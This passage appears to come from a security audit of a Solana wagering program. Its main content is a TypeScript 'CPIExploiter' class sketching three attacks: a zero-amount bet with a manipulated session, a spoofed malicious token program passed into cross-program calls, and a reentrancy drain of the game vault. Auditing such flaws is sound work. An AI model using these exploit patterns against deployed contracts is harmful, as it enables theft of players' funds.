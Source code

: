 ```rust
        // 1. Transfer 0 tokens but report success
        // 2. Transfer to different account
        // 3. Enable reentrancy attacks
        // 4. Manipulate transfer amounts
    }
}
```

### Real-World CPI Attack Implementation
```typescript
class CPIExploiter {
    async exploitTransferValidation(sessionId: string): Promise<void> {
        // 1. Create game session with manipulated bet amount
        const manipulatedSession = await this.createSessionWithManipulatedBet(sessionId);

        // 2. Join game with minimal actual transfer
        await this.wagerProgram.methods
            .joinUser(sessionId, 0)
            .accounts({
                gameSession: manipulatedSession,
                user: this.attackerKeypair.publicKey,
                userTokenAccount: this.attackerTokenAccount,
                vault: this.getVaultPDA(sessionId),
                tokenProgram: TOKEN_PROGRAM_ID,
                systemProgram: SystemProgram.programId,
            })
            .signers([this.attackerKeypair])
            .rpc();

        // 3. Game logic uses manipulated bet amount for calculations
        // 4. Attacker receives massive payouts for minimal investment
    }

    async maliciousTokenProgramAttack(sessionId: string): Promise<void> {
        // 1. Deploy malicious token program that mimics real token program
        const maliciousProgram = await this.deployMaliciousTokenProgram();

        // 2. Use malicious program in join_user call
        await this.wagerProgram.methods
            .joinUser(sessionId, 0)
            .accounts({
                gameSession: this.getSessionPDA(sessionId),
                user: this.attackerKeypair.publicKey,
                userTokenAccount: this.attackerTokenAccount,
                vault: this.getVaultPDA(sessionId),
                tokenProgram: maliciousProgram, // Malicious program
                systemProgram: SystemProgram.programId,
            })
            .signers([this.attackerKeypair])
            .rpc();

        // 3. Malicious program allows:
        //    - Transfer of 0 tokens while reporting success
        //    - Reentrancy attacks
        //    - Transfer to different recipients
    }

    async reentrancyAttack(sessionId: string): Promise<void> {
        // 1. Create malicious token that calls back into wager program
        const maliciousToken = await this.createMaliciousToken();

        // 2. During transfer, malicious token triggers another operation
        // 3. This can cause multiple distributions from same vault
```